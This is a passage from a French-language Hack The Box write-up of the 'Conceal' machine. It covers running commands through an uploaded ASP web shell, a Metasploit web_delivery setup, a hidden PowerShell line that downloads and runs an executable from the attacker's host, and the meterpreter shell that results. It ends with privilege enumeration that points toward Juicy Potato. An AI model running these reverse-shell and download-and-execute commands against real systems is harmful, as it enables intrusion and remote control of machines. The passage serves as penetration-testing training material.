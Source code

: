 	ftp> 

Donc après avoir upload le shell nous pouvons exécuter des commandes depuis curl.

	root@Seyptoo:~/htb/box/Conceal# curl http://10.10.10.116/upload/index.asp -d "cmd=whoami"
	[...SNIP...]
	conceal\destitute
	[...SNIP..]
	
Parfait nous sommes prêt pour le reverse shell nous allons utiliser metasploit le module web_delivery pour effectué notre reverse shell avec sans aucun problème.

	msf > use exploit/multi/script/web_delivery
	msf exploit(multi/script/web_delivery) > set LHOST 10.10.15.229
	msf exploit(multi/script/web_delivery) > set LPORT 9001
	msf exploit(multi/script/web_delivery) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
	msf exploit(multi/script/web_delivery) > set TARGET 4
	
Donc le code fournis en powershell il faut le mettre depuis le site web et non depuis curl car il y a des problèmes d'encodage etc.. Donc je vous conseille vivement d'aller sur le chemin directement. Le code fourni par Metasploit.

	powershell.exe -nop -w hidden -c $z="echo ($env:temp+'\DF95KsPU.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.15.229:8080/mSErF4WvPeAoECb', $z); invoke-item $z
	
Après avoir exécuté le code powershell nous avons un shell, mais le problème nous sommes pas administrator.

	msf exploit(multi/script/web_delivery) > exploit
	[*] 10.10.10.116     web_delivery - Delivering Payload                                                
	[*] Sending stage (206403 bytes) to 10.10.10.116
	[*] Meterpreter session 1 opened (10.10.15.229:4444 -> 10.10.10.116:49675) at 2019-05-18 13:50:59 +0200

	meterpreter > shell
	Process 1564 created.
	Channel 1 created.
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.
	
	C:\Windows\SysWOW64\inetsrv> whoami
	conceal\destitute

PrivEsc
----
Le privesc n'est pas très compliqué sur la machine nous allons taper la commande ci-dessous. En exécutant whoami /priv, nous voyons que les droits de l'utilisateur nous permettront d'utiliser l'exploit juicy-potato pour s'élever à NT AUTORITY/SYSTEM. 

	
	C:\Users\Windows\System32>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                               State   
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled

